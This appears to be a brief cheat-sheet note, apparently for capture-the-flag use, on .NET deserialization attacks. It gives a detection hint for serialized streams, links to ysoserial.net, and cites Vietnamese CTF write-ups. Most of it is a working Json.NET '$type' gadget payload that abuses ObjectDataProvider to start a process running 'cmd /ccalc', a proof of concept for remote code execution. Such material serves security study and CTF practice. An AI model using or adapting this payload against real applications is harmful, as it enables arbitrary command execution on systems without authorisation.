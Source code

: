 # .NET Deserialization

## Detection
- "AAEAAAD/////" in hex
## Exploit
```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/ccalc']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
https://github.com/pwntester/ysoserial.net 

## Tham khảo
- https://spl4yer.home.blog/2018/12/21/web-matesctf-season-3-round-2-simple-death-note/
- https://movrment.blogspot.com/2018/12/matesctf-r2-simple-death-note-web.html 

